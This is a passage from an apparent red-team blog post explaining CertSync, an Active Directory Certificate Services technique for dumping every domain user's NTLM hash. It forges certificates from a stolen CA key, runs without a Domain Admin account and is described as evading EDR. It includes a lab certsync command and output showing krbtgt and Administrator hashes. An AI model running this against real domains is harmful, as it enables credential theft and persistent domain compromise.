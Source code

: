 ![golden](./golden.png)

# Certsync against DCsync

Okay, but almost 98% of red teamers are familiar with **DCSync** and feel comfortable using it. So, what advantages does **CertSync** have?

Well, DCSync exploits the **MS-DRSR** protocol, which is used to replicate data from Active Directory, allowing an attacker to extract credentials directly from a Domain Controller.

The point is that DCSync also uses the **DSRUAPI**, which is monitored and often restricted by an EDR. In the case of a mature environment, you won't be able to carry out this attack. That's where CertSync shines, as it doesn't require the **DSRUAPI** or a Domain Admin, only a user who is an administrator of the CA.

**CertSync** is a technique for remotely dumping the NTDS using the two techniques we covered earlier, such as Golden Certificate and UnPAC-The-Hash, and it does this in a few steps:
- Dumps the list of users, CA information, and also the CRL via LDAP.
- Dumps the CA certificate and its private key (.p12 - Golden Certificate).
- Locally forges a certificate for each user.
- Performs UnPAC on all these certificates to obtain the NTLM hash.

Let's reproduce this in the lab. I will be using my user, which is an administrator of the CA that we will be attacking.

```bash
$ certsync -u paulo.victor -p 'Senha@123' -d corp.local -dc-ip 10.0.0.10 -ns 10.0.0.10
[*] Collecting userlist, CA info and CRL on LDAP
[*] Found 16 users in LDAP
[*] Found CA CORP-CA on CORP.LOCAL(10.0.0.10)
[*] Dumping CA certificate and private key
[*] Forging certificates for every users. This can take some time...
[*] PKINIT + UnPAC the hashes
CORP.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:75431702DEEB8199026DCFCA6EA5C950:::
CORP.LOCAL/Administrator:500:aad3b435b51404eeaad3b435b51404ee:DDC84A0B28826D6CD4738C5852F38E81:::
....
```

### Conclusion

This article explored how ADCS (Active Directory Certificate Services) can be used for persistence techniques targeting users, machines, and domains. We covered the Golden Certificates and UnPAC-The-Hash techniques for extracting NTLM hashes without accessing LSASS, and how they can combine to maintain access even after password changes or system reconfigurations.
